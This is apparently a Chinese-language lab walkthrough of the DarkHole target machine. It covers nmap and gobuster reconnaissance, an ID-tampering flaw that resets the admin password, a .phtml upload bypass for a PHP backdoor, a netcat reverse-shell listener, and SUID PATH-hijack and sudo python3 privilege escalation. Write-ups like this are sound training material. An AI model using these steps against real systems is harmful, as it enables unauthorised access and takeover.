> 此文章以 kali 地址为 10.10.10.5 为示例

# DarkHole 靶场

## 主机发现

```bash
sudo nmap -sn 10.10.10.0/24
```



靶机的主机为 10.10.10.9

## 服务识别

使用 nmap 对靶机进行扫描，寻找靶机开放的端口以便于进行更进一步的渗透测试

扫描开放的端口
```bash
sudo nmap --min-rate 10000 -p- 10.10.10.9
```



扫描开放端口的基本信息，并将结果保存到本地以便于随时观看
```
sudo nmap -sT -sC -sV -p22,80 10.10.10.9 -oA nmap/Scan
```



使用 nmap 进行默认的漏洞脚本扫描，并将结果保存到本地
```bash
sudo nmap --script=vuln -p22,80 10.10.10.9 -oA nmap/Script
```



发现暴露出了很多目录，执行一下完整的目录爆破

```bash
sudo gobuster dir -u /usr/share/dirb/wordlists/common.txt 
```



除了 index.php 其他都是文件目录，
upload 可能是文件上传的目录



## WEB渗透

### 80 端口渗透

打开 80 页面


View Details 点击没反应，
进入 Login 页面



尝试一下弱密码和万能密码没成功，
点击下方 Sign up now 注册一个账号试试



如图随便输入注册一个账号试试

```bash
admin12345
admin12345@gmail
admin12345
```

进入后台



### 越权

通过尝试发现这个界面实现的是更新功能，
可以更新 Detalis 和 Password，
提交一个新的 Password 的同时抓包分析一下



发现 id 处是 3 ，
可能存在越权漏洞，
猜测后台根据注册顺序来赋予 id，
id=1 或 0 极有可能是 root 或 拥有 root 权限 
先将 id 修改为 1 试试，
提交

提示我们 Password 已改变（没截到图）

那我们就切换账号试试看



分别尝试一下 root 和 admin，
果然，admin 登入成功了



看见有一个文件上传点，
上传一个 php 后门试试



提示只能上传 jpg , png , gif 格式的文件，
尝试使用罕见的后缀名上传文件，
以下是可能的 后缀名

```shell
.php
.php3
.php4
.php5
.php7

# Less known PHP extensions
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
```

在尝试后，
最终上传了一个 phtml 的文件是可以执行的，
使用的是 kali 自带的 payload，
可以在 /upload 中查看



## Linux 提权

kali 建立 nc 监听

```bash
sudo nc -lvnp 4444
```

执行 payload 获得回显



使用 python3 获得更好的 shell 环境

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

基本枚举查看信息



在前面目录爆破的时候看到 config 目录下有一个 php 文件，搜索出来看一下



```bash
find / -name database.php
```



```bash
cd /var/www/html/config/
ls
cat database.php
```



说明了 john 和 darkhole 两个用户可能有价值

查看一下 shadow 或者 passwd 的执行权限，
shadow 没有任何权限，passwd 有读取的权限，

```bash
ls -liah /etc/passwd
```



读取一下，提取出拥有 /bin/bash 的用户

```bash
cat /etc/passwd | grep "/bin/bash"
```


查看具有 s 位的可执行文件

```bash
find / -perm -u=s -type f 2>/dev/null
```

发现 john 拥有一个具有 s 位的 可执行文件



运行一下看看



尝试一下在执行 toto 之前塞一个 /bin/bash 到环境变量切换到 john 用户

```bash
echo "/bin/bash" > /tmp/cdt
chmod 777 /tmp/cdt
echo $PATH
export PATH=/tmp:$PATH
echo $PATH
/home/john/toto
```

成功切换



进入 john 用户文件夹

```bash
cd ../../../../../../../home/john
```



查看一下 password 文件



john 的密码是 root123，
查看一下sudo -l



发现可以免密执行 sudo 的 python3 和 file.py

塞一个切换 bash 的命令 给 file.py 实现提权

```bash
echo "import pty;pty.spawn('/bin/bash')" > file.py
cat file.py
sudo python3 /home/john/file.py
```

拿下机器



## 总结

这台靶机的难度中等偏下，
文件上传的时候需要一些经验和尝试，
linux 提权的时候要了解 suid 环境变量提权